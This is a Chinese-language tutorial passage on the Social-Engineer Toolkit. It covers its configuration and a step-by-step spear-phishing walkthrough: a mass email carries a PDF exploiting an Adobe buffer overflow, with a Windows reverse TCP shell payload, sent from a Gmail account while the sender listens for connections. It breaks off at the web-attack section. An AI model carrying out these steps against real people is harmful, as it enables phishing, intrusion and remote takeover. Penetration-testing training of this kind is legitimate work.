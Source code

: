主要功能：hacking the human mind。

### 1、SET基本配置：

SET位于/pentest/exploits/set/目录

更新：

```
cd /pentest/exploits/set/
svn update
```

配置文件config/set_config，当使用基于web的攻击方式时可以将email功能打开：

```
vi config/set_config:
METASPLOIT_PATH=/opt/framework3/msf3
WEBATTACK_EMAIL=ON
```

使用Java applet attack进行攻击的时候默认使用Microsoft作为发布者名称，如果需要自定义则需要安装JDK并打开配置项：

`SELF_SIGNED_APPLET=ON`

SET默认打开AUTO_DETECT项，自动探测本机IP并用于攻击中的各项配置。如果本机是多网卡需要手动指定IP，则需将此项关闭：

`AUTO_DETECT=OFF`

SET默认使用内建的python提供的web server供使用，如需使用apache作为服务则需要本机安装apache并打开配置项：

`APACHE_SERVER=ON`


### 2、网络钓鱼攻击:
Spear-Phishing Attack Vector,利用文件格式漏洞（如PDF）等生成后门并通过email（GMAIL,SENDMAIL,）向目标发送带后门附件的电子邮件，诱使目标打开附件激活后门。

例子：

```
./set
此时选择菜单1.Spear-Phishing Attack Vectors
继续选择：1.Perform a Mass Email Attack
选择exploit：8.Adobe Collab.collectEmailInfo Buffer Overflow
选择payload：4.Windows Reverse TCP Shell
选择是否更改文件名：1.Keep the filename
选择发送邮件方式1.Email Attack Single Email Address
选择邮件模板1.Pre-Defined Template
5.Status Report
输入收件方email地址：webmanager@exmaple.com
选择发件方式：1.Use a GMAIL Account for your email attack
输入发件gmail和密码
选择是否立即监听端口等待连接:yes
```
此时SET会使用刚才的设定全自动监听指定端口。

### 3、WEB方式攻击：
